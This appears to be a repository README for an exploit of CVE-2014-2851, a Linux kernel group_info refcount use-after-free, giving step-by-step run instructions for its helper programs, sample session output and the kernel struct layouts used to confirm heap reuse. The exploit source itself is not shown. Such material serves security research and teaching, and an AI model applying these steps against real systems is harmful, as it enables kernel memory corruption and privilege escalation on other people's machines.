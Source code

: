 linux
=====

This repository holds code to help exploiting CVE-2014-2851: Linux group_info refcounter overflow use afer free.

- ping_of.c calls ping_init_sock() argv[1] times. Doing this in python would make things too slow. 

- ping.py contains a client and a server function. 

The client function does the following:
- call ping_init_sock() to increase the refcounter
- call faccessat(), this syscall increments, then decrements the refcounter. If the refcounter became zero because of ping_init_sock, the group_info struct will be freed.
- requests the server to open 1000 file descriptors. On my system (32 bit ubuntu), the file structs are allocated in the same memcache as the group_info struct.(kmalloc-192)
- call getgroups(), if group_info has been freed and reused, this counter has been overwritten by another value. This way, we can see if group_info has been freed. 
we wait 15 seconds between faccessat and getgroups because the group_info struct may not have been overwritten yet.
 

The server opens a number of fds on request in order to use the freed memory. This should be called in a separate session because the credentials are shared between parent and child processes.

first, execute ping_of.c . This will increment the refcounter close to zero (e.g. -20).
next, in a different session,  execute "ping.py -s"
finally, in the first session, execute "ping.py -c"

[ Session 1 ]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping_of -20
...
<output omitted>
...
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -c
Starting client

numgroups: 8
numgroups: -1055523072
>
```
[Session 2]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -s
Starting Server
opening 1000 fds
opening 1000 fds
```
                        
The numgroups output by ping.py is returned by the getgroups system call. This comes from the group_info struct being overwritten by a file struct.
The group_info struct looks like this: 

```
include/linux/cred.h
32 struct group_info {
33         atomic_t        usage;            // refcounter
34         int             ngroups;          // return value of getgroups
35         int             nblocks;
36         kgid_t          small_block[NGROUPS_SMALL];
37         kgid_t          *blocks[0];
38 };
```
The file struct looks like this:
```
include/linux/fs.h
775 struct file {
776         union {
777                 struct llist_node       fu_llist;
778                 struct rcu_head         fu_rcuhead;
779         } f_u;
780         struct path             f_path;
781 #define f_dentry        f_path.dentry
782         struct inode            *f_inode;       /* cached value */
783         const struct file_operations    *f_op;
784 
....

include/linux/llist.h
65 struct llist_node {
66         struct llist_node *next;
67 };
```
So, after the free, getgroups() looks up the value on the location where ngroups was before it was freed. This location now holds fu_rcuhead .
We are still able to increment fu_llist by calling ping_init_sock().